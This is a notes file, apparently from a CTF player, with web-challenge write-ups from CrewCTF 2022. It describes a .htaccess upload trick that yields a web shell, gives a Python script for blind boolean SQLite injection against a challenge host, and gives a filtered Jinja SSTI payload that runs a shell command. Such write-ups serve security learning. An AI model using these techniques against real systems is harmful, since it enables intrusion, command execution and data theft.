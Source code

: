 ### Template for web
#### File uploading with .htaccess

##### Problem: Uploadz - CrewCTF 2022

Server is using .htaccess with mod_rewrite to rewrite the request url to any php files or files outside of allowed directories to the /index.php. It allows upload arbitrary files to the server.
##### Technique
- Uploading the .htaccess file to a subdir with content: `RewriteEngine On` :enable the mod rewrite in subdir, it will inherit the outside .htaccess then redirect any request to php file to the location subdir/index.php
- Uploading the index.php contains malicious code to that subdir -> got web shell

#### Boolean-based SQLite Injection
##### Problem: Marvel Pick and Marvel Pick Again - CrewCTF 2022

Server is using API to request to a SQLite service that is vulnerable to SQL injection, filters some characters

##### Technique
- Using boolean based and concatinating strings, if the string equals "ironman", the server returns != vote_count, else it returns 0 vote_counte, from that, we can etract every characters of the flag

##### Proof Of Concept
```
import requests
import threading
from string import ascii_lowercase, digits

payloads = ascii_lowercase + digits + '_{}'
result = "create_table_characters____id_integer_primary_key___name_textnotnull"
flag = ""
arr = [""] * 500

def exploit(c, i):
  global flag
  burp0_url = f"http://34.126.83.114:3390/api.php?character=iron'||caSe+when+subStr((seLect+value+from+flags),{i},1)is'{c}'then'm'end||'an"
  burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://34.126.83.114:1337/", "Origin": "http://34.126.83.114:1337", "Connection": "close", "DNT": "1", "Sec-GPC": "1"}
  res = requests.get(burp0_url, headers=burp0_headers)
  if res.json()['data']['vote_count'] != 0:
    flag += c
    print(flag)
    return 1

for i in range(1,500):
  for c in payloads:
    
    if exploit(c, i) == 1: break
#crew{so_its_n0t_on3_line_for_exp}
#crew{y3sss_y0u_g0t_m3_h1_1_st4rn_n_n1n0}
```

#### SSTI with filters

##### Problem - Ez Chall - CrewCTF 2022
Server allowed SSTI but heavily filters the input, no Out Of Band technique

##### Technique
- Since it doesn't filter some important keyword like : cycler, session, ... I can use the below payload for setting the flag in the session

```
{% set x=session.update({"a":cycler["__in" "it__"]["__glo" "bals__"]["os"]["popen"]("rev /flag")["re" "ad"]()})%}
```
